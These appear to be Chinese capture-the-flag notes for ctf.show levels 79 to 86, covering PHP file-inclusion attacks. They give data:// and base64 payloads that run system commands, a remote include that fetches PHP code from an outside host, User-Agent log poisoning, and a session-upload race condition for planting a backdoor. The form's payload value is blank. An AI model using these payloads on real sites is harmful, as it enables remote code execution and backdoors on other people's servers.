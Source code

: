 #### 79关-data&http协议

```
	payload: ?file=data://text/plain,<?=system('tac flag.*');?>

	payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==

	payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>
```

#### 80、81关-日志包含

- 1、利用其他协议,如file,zlib等
- 2、利用日志记录UA特性包含执行

分析需文件名及带有php关键字放弃

故利用日志记录UA信息，UA带入代码

包含：/var/log/nginx/access.log

#### 82-86关-SESSION包含

利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含

1. 自定义session名字
2. 条件竞争访问session文件
3. 触发创建新文件，植入后门

发送session的代码
```
<!DOCTYPE html>
<html>

<body>

<form action="http://xxxx.ctf.show/" method="POST" enctype="multipart/form-data">

<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php                                                     ?>'?>" />

<input type="file" name="file" />

<input type="submit" value="submit" />

</form>

</body>

</html>
```

#### session条件竞争文章
https://www.cnblogs.com/lnterpreter/p/14086164.html
ctf解题思路
https://www.cnblogs.com/echoDetected/p/13976405.html
